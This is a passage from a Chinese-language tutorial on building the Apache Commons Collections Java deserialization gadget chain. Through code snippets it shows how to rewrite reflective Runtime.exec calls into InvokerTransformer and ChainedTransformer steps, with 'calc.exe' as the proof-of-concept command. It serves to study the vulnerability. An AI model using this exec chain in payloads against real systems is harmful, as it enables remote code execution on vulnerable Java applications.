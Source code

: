 **If the underlying method is static, then the specified obj argument is ignored. It may be null**

因为getMethod是static方法，因此反射构造可以改写为：

```java
Class.forName("java.lang.Runtime")
                .getMethod("exec", String.class)
                .invoke(
                        Class.forName("java.lang.Runtime")
                                .getMethod("getRuntime")
                                .invoke(null)//此处在获取类
                        ,
                        "calc.exe"
                );
```

##### 依据反射构造ChainedTransformer

InvokerTransformer里有一段重要代码是构造的关键：

```java
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
```

改造一下便是：

```java
input.getClass()
		.getMethod(iMethodName, iParamTypes)
		.invoke(input, iArgs)
```

根据该结构改造反射构造：

```java
Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).getClass()
                .getMethod("exec", String.class)
                .invoke(
                        Class.forName("java.lang.Runtime")
                                .getMethod("getRuntime")
                                .invoke(null)
                        ,
                        "calc.exe"
                );

```

即为了匹配样式，把`Class.forName("java.lang.Runtime")`​改为`Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).getClass()`​。

根据ChainedTransformer的源码可知，上一层transform的结果会是这一层transform的参数，因此有：

###### step1

```java
Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null)

return input.getClass()
		.getMethod("exec", String.class)
		.invoke(input, "calc.exe")

new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
```
